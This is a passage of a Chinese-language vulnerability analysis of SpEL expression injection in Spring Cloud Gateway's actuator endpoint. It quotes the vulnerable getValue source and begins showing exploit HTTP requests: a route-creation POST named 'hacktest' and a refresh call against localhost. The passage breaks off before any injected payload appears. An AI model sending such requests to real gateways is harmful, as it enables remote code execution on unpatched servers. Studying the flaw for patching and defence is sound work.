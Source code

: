 ``` text
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
Content-Length: 2



```

### SpEL表达式

Spring表达式语言（简称 SpEL，全称Spring Expression Language）是一种功能强大的表达式语言，支持在运行时查询和操作对象图。它语法类似于OGNL，MVEL和JBoss EL，在方法调用和基本的字符串模板提供了极大地便利，也开发减轻了Java代码量。另外 , SpEL是Spring产品组合中表达评估的基础，但它并不直接与Spring绑定,可以独立使用。

## 漏洞分析

### 漏洞点分析

查看类的继承关系，发现所有的内置`filterFactory`都实现了`ShortcutConfigurable`接口，所以添加的过滤器都会经过`ShortcutConfigurable`

![20220410180153](https://cdn.jsdelivr.net/gh/dre4merp/Drawing-bed@main/images/20220410180153.png)

漏洞点就位于`org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue`中，查看源码发现`filter`的参数支持SpEL表达式，而且是通过`StandardEvaluationContext`使用表达式，完美满足了SpEL表达式注入的条件。

``` java
static Object getValue(SpelExpressionParser parser, BeanFactory beanFactory, String entryValue) {
    Object value;
    String rawValue = entryValue;
    if (rawValue != null) {
        rawValue = rawValue.trim();
    }
    if (rawValue != null && rawValue.startsWith("#{") && entryValue.endsWith("}")) {
        // assume it's spel
        StandardEvaluationContext context = new StandardEvaluationContext();
        context.setBeanResolver(new BeanFactoryResolver(beanFactory));
        Expression expression = parser.parseExpression(entryValue, new TemplateParserContext());
        value = expression.getValue(context);
    }
    else {
        value = entryValue;
    }
    return value;
}
```

### 漏洞利用

#### 创建路由

``` text
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en
Content-Type: application/json
Content-Length: 340

{
  "id": "hacktest",
```